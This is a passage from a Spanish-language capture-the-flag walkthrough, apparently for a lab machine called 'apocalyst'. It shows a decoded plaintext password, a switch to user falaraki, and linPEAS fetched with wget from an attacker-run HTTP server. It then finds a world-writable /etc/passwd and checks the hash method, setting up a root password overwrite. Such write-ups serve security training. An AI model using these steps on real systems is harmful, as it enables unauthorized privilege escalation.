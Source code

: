 ```
# echo S2VlcCBmb3JnZXR0aW5nIHBhc3N3b3JkIHNvIHRoaXMgd2lsbCBrZWVwIGl0IHNhZmUhDQpZMHVBSU50RzM3VGlOZ1RIIXNVemVyc1A0c3M= | base64 -d
Keep forgetting password so this will keep it safe!
Y0uAINtG37TiNgTH!sUzersP4ss
```

Nos `convertimos` en el usuario `falaraki`

```
www-data@apocalyst:/home/falaraki$ su falaraki
Password: 
falaraki@apocalyst:~$ whoami
falaraki
```

Nos descargamos `linpeas` [https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) y nos montamos un `servidor http` con `python` en el `directorio` donde se encuentra linpeas

```
# python -m http.server 80
```

Nos descargamos `linpeas` en la `máquina víctima`

```
falaraki@apocalyst:~$ wget http://10.10.16.35/linpeas.sh
--2024-08-03 19:30:55--  http://10.10.16.35/linpeas.sh
Connecting to 10.10.16.35:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 862777 (843K) [text/x-sh]
Saving to: ‘linpeas.sh.1’

linpeas.sh.1                                  100%[================================================================================================>] 842.56K   650KB/s    in 1.3s    

2024-08-03 19:30:56 (650 KB/s) - ‘linpeas.sh.1’ saved [862777/862777]
```

Al ejecutar `linpeas` vemos que tenemos `permisos` de `escritura` sobre el `/etc/passwd`, por lo tanto podemos `cambiarle` la `contraseña` a `cualquier usuario`

```
falaraki@apocalyst:~$ ls -l /etc/passwd
-rw-rw-rw- 1 root root 1670 Aug  3 19:26 /etc/passwd
```

Podemos ver el `tipo` de cifrado que se está empleando en el sistema

```
falaraki@apocalyst:~$ su root
Password: 
su: Authentication failure
falaraki@apocalyst:~$ ^C
falaraki@apocalyst:~$ cat /etc/login.defs | grep ENCRYPT_METHOD
# This variable is deprecated. You should use ENCRYPT_METHOD.
ENCRYPT_METHOD SHA512
# Only used if ENCRYPT_METHOD is set to SHA256 or SHA512.
```
